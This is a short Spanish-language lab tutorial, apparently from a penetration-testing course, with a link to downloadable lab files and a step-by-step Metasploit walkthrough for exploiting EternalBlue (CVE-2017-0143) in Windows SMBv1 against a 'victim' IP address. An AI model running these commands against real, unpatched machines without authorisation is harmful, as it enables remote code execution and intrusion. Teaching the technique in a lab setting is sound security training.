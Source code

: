```yaml
---
icon: '3'
---
```


# Explotación de Vulnerabilidades y Ataques de Fuerza Bruta

## Enlace Alternativo de Descarga de los Laboratorios

{% embed url="https://drive.google.com/drive/folders/1EOkfWHycCEsO2QU6DHhloN7pnDAu6-vg" %}

## Uso Básico de Metasploit – Explotación EternalBlue en Windows

**EternalBlue** es una vulnerabilidad en SMBv1 de Windows (CVE-2017-0143), aprovechada por malware como WannaCry. A continuación, te muestro cómo explotar esta vulnerabilidad usando Metasploit:

```bash
# 1. Iniciar Metasploit
msfconsole

# 2. Buscar el exploit EternalBlue (CVE-2017-0143)
search eternalblue/CVE-2017-0143

# 3. Seleccionar el exploit encontrado
use 0

# 4. Mostrar las opciones disponibles del módulo
show options

# 5. Configurar la dirección IP de la máquina víctima
set RHOSTS <IP de la máquina víctima>

# 6. Ejecutar el exploit
run
```

Este exploit aprovecha una vulnerabilidad crítica en SMBv1, permitiendo ejecución remota de código en sistemas no parcheados.


